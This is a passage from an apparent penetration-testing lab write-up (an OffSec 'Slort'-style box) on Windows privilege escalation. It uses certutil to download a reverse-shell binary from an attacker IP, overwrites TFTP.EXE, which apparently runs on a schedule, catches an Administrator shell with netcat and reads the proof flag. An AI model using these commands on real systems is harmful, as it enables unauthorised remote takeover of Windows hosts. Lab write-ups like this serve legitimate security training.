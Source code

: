 I first back-up that executable in case we need it later (by copying it)

```
C:\Backup>COPY TFTP.EXE TFTP.EXE.BAK
COPY TFTP.EXE TFTP.EXE.BAK
        1 file(s) copied.
```

I then download the executable (`rshell.exe`) as `TFTP.EXE`.

```
C:\Backup>certutil.exe -urlcache -f http://192.168.45.205:443/rshell.exe TFTP.EXE
certutil.exe -urlcache -f http://192.168.45.205:443/rshell.exe TFTP.EXE
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

I confirm the executable is updated by looking at the last update time of the file:

```
C:\Backup>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 6E11-8C59

 Directory of C:\Backup

03/09/2024  10:37 AM    <DIR>          .
03/09/2024  10:37 AM    <DIR>          ..
06/12/2020  06:45 AM            11,304 backup.txt
06/12/2020  06:45 AM                73 info.txt
03/09/2024  10:38 AM            73,802 TFTP.EXE
06/23/2020  06:49 PM            73,802 TFTP.EXE.BAK
               4 File(s)        158,981 bytes
               2 Dir(s)  28,518,903,808 bytes free
```

I exit the machine, and restart the listener...

```
C:\Backup>^C

┌──(kali㉿kali)-[~/offsec/slort]
└─$ nc -lnvp 4242
listening on [any] 4242 ...
```

Within a couple of minutes we got a shell as Administrator!

```
┌──(kali㉿kali)-[~/offsec/slort]
└─$ nc -lnvp 4242
listening on [any] 4242 ...
connect to [192.168.45.205] from (UNKNOWN) [192.168.176.53] 50944
Microsoft Windows [Version 10.0.19042.1387]
(c) Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>
```

And we find our flag where we expect it:

```
C:\WINDOWS\system32>cd C:\Users\Administrator\Desktop
cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>type proof.txt
type proof.txt
368aba713e3eaf4fb22535f9bf6e5a8b
```


